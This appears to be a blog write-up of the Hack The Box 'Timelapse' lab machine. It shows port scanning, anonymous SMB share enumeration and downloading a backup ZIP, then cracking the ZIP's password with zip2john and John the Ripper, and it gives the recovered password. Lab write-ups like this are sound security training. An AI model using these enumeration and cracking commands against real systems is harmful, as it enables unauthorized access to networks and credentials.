

repository: gmrvh/blog · page: htb/timelapse/index.html · generator: mkdocs

# Timelapse - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf            .NET Message Framing
```

### Domain Information
From the scan results, I identified domain information:
```
Domain: timelapse.htb
Computer name: dc01.timelapse.htb
```

The SSL certificate on port 5986 confirmed WinRM over HTTPS was enabled.

### SMB Enumeration
I enumerated SMB shares using anonymous access:
```bash
smbclient -L \\\\10.129.190.14 -N
```

This revealed several standard shares plus an additional non-default share named "Shares":
```
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Shares          Disk      
SYSVOL          Disk      Logon server share 
```

## Gaining Initial Access

### SMB Share Content Analysis
I connected to the "Shares" share to examine its contents:
```bash
smbclient \\\\10.129.190.14\\Shares -N
```

After browsing through the directories, I discovered a password-protected ZIP file:
```
winrm_backup.zip
```

I downloaded this file for further analysis:
```bash
get winrm_backup.zip
```

### ZIP File Password Cracking
I used zip2john and John the Ripper to crack the ZIP file password:
```bash
zip2john winrm_backup.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

This revealed the password:
- **ZIP Password**: supremelegacy
